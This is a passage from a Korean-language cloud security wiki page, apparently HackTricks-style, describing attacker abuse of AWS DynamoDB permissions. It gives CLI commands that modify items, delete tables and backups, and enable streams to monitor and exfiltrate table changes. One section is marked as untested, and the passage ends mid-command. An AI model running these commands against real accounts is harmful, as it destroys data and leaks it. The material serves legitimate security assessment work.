 {{#tab name="AI Example" }}
```bash
aws dynamodb update-item \
--table-name ExampleTable \
--key '{"Id": {"S": "1"}}' \
--update-expression "SET Attribute1 = :val1, Attribute2 = :val2" \
--expression-attribute-values '{":val1": {"S": "NewValue1"}, ":val2": {"S": "NewValue2"}}' \
--region <region>
```
{{#endtab }}
{{#endtabs }}

**잠재적 영향:** DynamoDB 테이블에 데이터를 추가/수정할 수 있게 되면 추가적인 vulnerabilities/bypasses를 악용할 수 있다

### `dynamodb:DeleteTable`

이 권한을 가진 공격자는 **DynamoDB 테이블을 삭제하여 데이터 손실을 초래할 수 있다**
```bash
aws dynamodb delete-table \
--table-name TargetTable \
--region <region>
```
**잠재적 영향**: 삭제된 테이블에 의존하는 서비스의 데이터 손실 및 중단.

### `dynamodb:DeleteBackup`

이 권한을 가진 공격자는 **DynamoDB 백업을 삭제하여 재해 복구 시나리오에서 데이터 손실을 초래할 수 있습니다**.
```bash
aws dynamodb delete-backup \
--backup-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable/backup/BACKUP_ID \
--region <region>
```
**잠재적 영향**: 재해 복구 시나리오에서 백업으로부터 복구할 수 없어 데이터 손실이 발생할 수 있습니다.

### `dynamodb:StreamSpecification`, `dynamodb:UpdateTable`, `dynamodb:DescribeStream`, `dynamodb:GetShardIterator`, `dynamodb:GetRecords`

> [!NOTE]
> TODO: 실제로 작동하는지 테스트 필요

이 권한을 가진 공격자는 **DynamoDB 테이블에서 스트림을 활성화하고, 테이블을 업데이트해 변경사항 스트리밍을 시작한 다음 스트림에 접근하여 테이블 변경사항을 실시간으로 모니터링할 수 있습니다**. 이를 통해 공격자는 데이터 변경사항을 모니터링하고 exfiltrate할 수 있으며, 잠재적으로 data leakage로 이어질 수 있습니다.

1. DynamoDB 테이블에서 스트림 활성화:
```bash
aws dynamodb update-table \
--table-name TargetTable \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES \
--region <region>
```
2. ARN 및 기타 세부 정보를 얻기 위해 스트림을 설명합니다:
```bash
aws dynamodb describe-stream \
--table-name TargetTable \
--region <region>
```
3. stream ARN을 사용하여 shard iterator를 가져옵니다:
```bash
aws dynamodbstreams get-shard-iterator \
--stream-arn <stream_arn> \
--shard-id <shard_id> \
--shard-iterator-type LATEST \
--region <region>
```
4. shard iterator를 사용하여 stream에서 데이터에 접근하고 exfiltrate합니다:
```bash
aws dynamodbstreams get-records \
```
